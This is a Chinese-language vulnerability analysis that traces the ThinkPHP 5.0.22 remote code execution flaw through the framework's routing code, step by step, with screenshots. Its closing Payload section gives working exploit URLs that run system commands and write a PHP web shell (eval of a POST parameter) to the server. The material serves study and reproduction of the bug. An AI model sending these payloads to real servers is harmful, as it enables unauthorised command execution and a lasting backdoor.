# THINKPHP5.0.22远程代码执行漏洞分析及复现

## 	 漏洞介绍

​		由于，thinkphp 5.0.23 以及5.1.31 之前的版本都未强制开启路由，所以，导致攻击者可以提交恶意参数导致远程代码执行

## 影响版本

​		thinkphp  当前版本< 5.0.22

## 漏洞分析

> get请求  `index.php?s=index/think\app/invokefunction&function=system&vars[0]=dir&vars[1][]=`

1）从入口index.php 首先会来到 thinkphp 的初始化文件

> `thinkphp/library/think/App.php -> run() `




2）因为漏洞POC与框架的url处理有关，所以直接跟到URL路由检测函数

> > `thinkphp/library/think/App.php -> run() ` 116




3）在这个方法中会检测 url参数，通过参数访问类或者方法 或者模板

> thinkphp/library/think/App.php-> routeCheck()

​		该方法中，第620行 调用`$request->path()` 返回了 url中的s参数值




 		第643 会解析路由，如果 没有用路由会返回false 




​		第 654行 当为无效路由时，会去解析兼容路由，




4）跟进 `Route::parseUrl`

> `thinkphp/library/think/Route.php->parseUrl()` 1217




​		该方法中，在第1225行 会将$url 即s参数中的值，`/` 替换成`|`,用于解析 模板| 控制器|操作|参数




​		最终，往回走，将结果返回给 `$result` 




5）最终回到run()方法中，

> thinkphp/library/think/App.php > run() 139

​		在`self::exec()` 将获得的 `$dispatch` 做操作




6）继续跟进，由于 `$dispatch` 中的第一个参数为，`'module'`则会去调用，`self::module`




7) 在self::module 第585行会做对比，看模板方法是否存在，存在则会进入if语句中




8.最后返回值，调用`self::invokeMethod`




在该方法中会生成ReflectionMethod对象，最后的返回值，调用 ReflectionMethod对象的invokeArgs 方法，该方法会回调一个方法 即 $args数组的第一个，即 `invokeFunction`




9）最后在InvokeFunction 方法执行危险函数




注：关于在ReflectionMethod的使用可参考

> [PHP: ReflectionMethod - Manual](https://www.php.net/manual/zh/class.reflectionmethod.php)

## Payload

```
http://localhost/index.php?s=index/think\app/invokefunction&function=system&vars[0]=whoami&vars[1][]=

http://localhost/index.php?s=index/think\app/invokefunction&function=call_func_user_array&vars[0]=system&vars[1][]=whoami
```

```
http://localhost/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][0]=sad.php&vars[1][1]=<?php eval($_POST[cmd])?>
```

